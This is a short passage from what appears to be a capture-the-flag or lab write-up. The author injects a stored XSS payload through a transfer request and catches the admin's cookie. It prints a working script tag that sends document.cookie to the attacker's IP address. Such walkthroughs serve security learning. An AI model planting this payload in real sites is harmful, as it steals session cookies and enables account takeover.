 After logging in, I make a transfer request with an XSS payload to steal the admin cookie.

![](img/2020-11-25-16-48-48.png)

![](img/2020-11-25-16-49-42.png)

```html
<script>new Image().src="http://10.10.14.27/missing?output="+document.cookie;</script>
```

After a few minutes, a request comes through.

![](img/2020-11-25-16-49-33.png)
